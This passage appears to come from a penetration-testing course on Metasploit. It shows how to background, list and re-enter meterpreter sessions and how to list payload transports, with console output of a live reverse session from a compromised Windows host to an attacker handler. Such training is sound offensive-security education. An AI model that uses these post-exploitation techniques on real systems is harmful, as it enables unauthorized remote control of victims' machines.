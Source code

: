 So far, we have navigated within a meterpreter session using various built-in commands, but we can also temporarily exit the meterpreter shell to perform other actions inside the Metasploit Framework, without closing down the connection. We can use background to return to the msfconsole prompt, where we can perform other actions within the framework. When we are ready to return to our meterpreter session, we can list all available sessions with sessions -l and jump back into our session with sessions -i (interact) followed by the respective Id as shown in Listing 56.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > 

msf6 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x86/windows  DESKTOP-6UTT671\Offsec @ DESKTOP-6UTT671  192.168.118.2:443 -> 192.168.120.11:50839 (192.168.120.11)

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

Using these commands, we can switch between available shells on different compromised hosts without closing down any of our connections.

In our previous examples, we have used a pre-defined communication protocol (like TCP or HTTPS) to exploit our target, which we chose when we generated the payload. However, we can use Meterpreter payload _transports_[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/the-metasploit-framework/metasploit-payloads/advanced-features-and-transports#fn1) to switch protocols after our initial compromise. We can list the currently available transports for the meterpreter connection with transport list.

```
meterpreter > transport list
Session Expiry  : @ 2021-01-29 12:17:33

    ID  Curr  URL                                                                                                         Comms T/O  Retry Total  Retry Wait
    --  ----  ---                                                                                                         ---------  -----------  ----------
    1   *     https://192.168.118.2:443/z1ZmjIKG4RbLjMqNq4fDJw04bX7nMAC9c8em5NsqBdxap5Q8rCmLeA1-OBJ2RHKEz2knBsYiQCYA01o/  300        3600         10

meterpreter >
```

We can also use transport add to add a new transport protocol to the current session, using -t to set the desired transport type.
